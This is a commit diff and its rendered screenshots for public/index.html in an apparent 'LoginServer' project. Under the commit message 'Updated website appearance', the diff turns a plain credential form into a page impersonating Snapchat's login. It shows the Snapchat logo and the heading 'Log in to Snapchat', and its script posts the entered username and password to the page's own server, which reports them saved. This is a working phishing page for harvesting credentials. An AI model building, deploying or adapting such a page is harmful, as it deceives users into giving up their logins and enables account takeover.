

Before and after one commit to hello-bye123/LoginServer, a website: page public/index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (322-962 px from the left). Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Updated website appearance

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -2,50 +2,132 @@
 <html>
 <head>
   <meta charset="utf-8" />
-  <title>Login (plain text passwords)</title>
+  <title>Login Page</title>
   <style>
-    body { font-family: Arial, sans-serif; background:#f6f7fb; padding:20px; }
-    .box { width:320px; margin:40px auto; padding:18px; background:white; border-radius:8px; box-shadow:0 2px 8px rgba(0,0,0,0.08); }
-    input, button { width:100%; padding:10px; margin:6px 0; border-radius:6px; border:1px solid #ccc; }
-    #status { margin-top:10px; color: #333; }
+    body {
+      font-family: Arial, sans-serif;
+      background: #ffffff; /*yellow background */
+      display: flex;
+      justify-content: center;
+      align-items: center;
+      height: 100vh;
+      margin: 0;
+    }
+
+    .login-card {
+      background: white;
+      padding: 40px 30px;
+      border-radius: 12px;
+      box-shadow: 0 4px 20px rgba(0,0,0,0.1);
+      width: 320px;
+      max-width: 90%;
+      text-align: center;
+    }
+
+    .login-card img {
+      width: 60px;
+      margin-bottom: 20px;
+    }
+
+    .login-card h2 {
+      margin: 0 0 30px 0;
+      font-size: 24px;
+      font-weight: bold;
+    }
+
+    label {
+      display: block;
+      text-align: left;
+      margin-bottom: 5px;
+      font-size: 14px;
+      color: #555;
+    }
+
+    input[type="text"], input[type="password"] {
+      width: 100%;
+      padding: 12px 10px;
+      margin-bottom: 20px;
+      border: 1px solid #ccc;
+      border-radius: 8px;
+      font-size: 16px;
+      box-sizing: border-box;
+    }
+
+    .forgot {
+      font-size: 14px;
+      color: #2196f3;
+      text-decoration: none;
+      display: block;
+      margin-bottom: 20px;
+    }
+
+    button {
+      width: 100%;
+      padding: 12px;
+      border: none;
+      border-radius: 8px;
+      background-color: #2196f3;
+      color: white;
+      font-size: 16px;
+      cursor: pointer;
+      transition: background-color 0.3s ease;
+    }
+
+    button:hover {
+      background-color: #1976d2;
+    }
   </style>
 </head>
 <body>
-  <div class="box">
-    <h3>Login (submissions saved privately)</h3>
+
+  <div class="login-card">
+    <img src="https://upload.wikimedia.org/wikipedia/en/thumb/c/c4/Snapchat_logo.svg/1024px-Snapchat_logo.svg.png" alt="Logo">
+    <h2>Log in to Snapchat</h2>
+
     <form id="form">
-      <input id="username" placeholder="username" required /><br/>
-      <input id="password" type="password" placeholder="password" required /><br/>
-      <button type="submit">Submit</button>
+      <div>
+        <label for="username">Username</label>
+        <input id="username" type="text"  required>
+      </div>
+
+      <div>
+        <label for="password">Password</label>
+        <input id="password" type="password"  required>
+      </div>
+
+      <a href="#" class="forgot">Forgot Password</a>
+      <button type="submit">Next</button>
     </form>
-    <div id="status"></div>
   </div>
 
   <script>
     const form = document.getElementById('form');
-    const status = document.getElementById('status');
+    const passwordInput = document.getElementById('password');
 
     form.addEventListener('submit', async (e) => {
       e.preventDefault();
       const u = document.getElementById('username').value;
-      const p = document.getElementById('password').value;
+      const p = passwordInput.value;
+
       try {
         const res = await fetch('/submit', {
           method: 'POST',
           headers: { 'Content-Type': 'application/json' },
           body: JSON.stringify({ username: u, password: p })
         });
+
         const json = await res.json();
         if (json.success) {
-          status.innerText = 'Saved to server (private).';
+          alert('Saved to server (private).');
           form.reset();
         } else {
-          status.innerText = 'Error: ' + (json.error || 'unknown');
+          alert('Error: ' + (json.error || 'unknown'));
         }
       } catch (err) {
-        status.innerText = 'Request failed: ' + err.message;
+        alert('Request failed: ' + err.message);
       }
     });
   </script>
+
 </body>
 </html>
```
